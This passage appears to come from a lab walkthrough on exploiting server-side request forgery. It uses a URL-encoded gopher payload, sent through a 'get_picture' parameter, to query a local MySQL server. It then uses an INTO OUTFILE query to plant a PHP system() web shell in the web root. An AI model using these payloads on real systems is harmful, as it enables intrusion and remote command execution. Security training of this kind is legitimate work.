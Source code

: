 4. Using our generated URL in gopher. Below we have the payload version.

```
gopher%3A%2F%2F127.0.0.1%3A3306%2F_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2512%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2540%2540%2576%2565%2572%2573%2569%256f%256e%253b%2501%2500%2500%2500%2501
```
* We include the payload in the ``get_picture=`` parameter.


<p align="center">
   <img width="1000" height="85" src="./img/10.png">
</p>

Here we can access MYSQL and consult the database version.

## Reverse Shell via MYSQL :fire:

* In this step, we will use an "into outfile" query.In MySQL, the INTO OUTFILE clause is used in a SELECT query to export the result of the query directly to a file in the server's file system. In other words, it allows you to save the output of a query into a file instead of just returning it as a result set.
```
select "<?php system($_GET[1337]);?>" into outfile "/var/www/html/oi.php";
```
* In this payload, we are asking MYSQL via Gopher to create a file in the NGINX default directory, with PHP's SYSTEM content in variable 1337. Let's see.

<p align="center">
   <img width="800" height="200" src="./img/11.png">
</p>
<p align="center">
   <img width="800" height="100" src="./img/12.png">
</p>
